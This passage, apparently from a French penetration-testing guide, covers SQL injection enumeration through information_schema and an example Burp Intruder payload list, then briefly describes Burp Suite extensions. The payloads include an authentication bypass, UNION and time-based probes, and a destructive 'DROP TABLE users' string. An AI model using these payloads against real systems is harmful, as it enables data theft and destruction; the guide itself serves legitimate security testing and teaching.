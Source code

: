 ```
   - Lister les bases de données : UNION SELECT schema_name FROM information_schema.schemata
   - Lister les tables : UNION SELECT table_name FROM information_schema.tables
   - Lister les colonnes : UNION SELECT column_name FROM information_schema.columns

Exemple de payload dans Burp Intruder :
- Position : id=§1§
- Payloads :
  * 1' OR '1'='1
  * 1' UNION SELECT 1,2,3--
  * 1' AND SLEEP(5)--
  * 1'; DROP TABLE users;--
```
</div>

<h3>Extensions Burp Suite utiles</h3>

<div class="methodology-grid">
<div class="methodology-card">
<h4>🔍 SQLiPy</h4>
<p>Détection automatisée des injections SQL avec différentes techniques d'exploitation.</p>
</div>

<div class="methodology-card">
<h4>🎯 Autorize</h4>
<p>Test automatique des contrôles d'accès et détection des vulnérabilités d'autorisation.</p>
</div>

<div class="methodology-card">
<h4>📊 Logger++</h4>
<p>Logging avancé avec filtres personnalisables et export des données.</p>
</div>

<div class="methodology-card">
<h4>🔐 JWT Editor</h4>
<p>Manipulation et test des JSON Web Tokens pour identifier les failles d'authentification.</p>
</div>

<div class="methodology-card">
<h4>🌐 Param Miner</h4>
<p>Découverte de paramètres cachés et d'endpoints non documentés.</p>
</div>

<div class="methodology-card">
<h4>🔄 Turbo Intruder</h4>
<p>Attaques haute performance avec scripts Python personnalisés.</p>
</div>
</div>

</div>

---

<div class="concept-section">
<h2 class="section-title">🎯 Méthodologie de tests de pénétration</h2>
